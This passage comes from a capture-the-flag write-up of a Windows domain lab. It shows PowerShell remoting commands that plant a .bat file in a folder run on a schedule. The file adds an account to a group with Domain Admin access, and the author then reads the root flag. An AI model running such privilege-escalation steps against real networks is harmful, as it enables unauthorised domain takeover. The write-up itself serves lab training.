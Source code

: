 

    PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Group name     Site_Admin
    Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

    Members

    -------------------------------------------------------------------------------
    The command completed successfully.



#### Add awallace

Given that `.bat` scripts are being run by Lois every five minutes, I'll
write a script to add awallace to `Site_Admin`:



    PS C:\Utils> Invoke-Command -ScriptBlock { Set-Content -Path '\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credenti
    al $cred
    PS C:\Utils> Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    net group site_admin awallace /add /domain



I'll note there's no members of `Site_Admin` above (it's only for
emergencies), but after a few minutes, awallace is added:



    PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Group name     Site_Admin
    Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

    Members

    -------------------------------------------------------------------------------
    awallace                 
    The command completed successfully.



That's actually enough to read `root.txt`:



    PS C:\Utils> Invoke-Command -ScriptBlock { cat \users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    5a14532a55ecc6c7cf9faa6f3f6317b5



### Shell
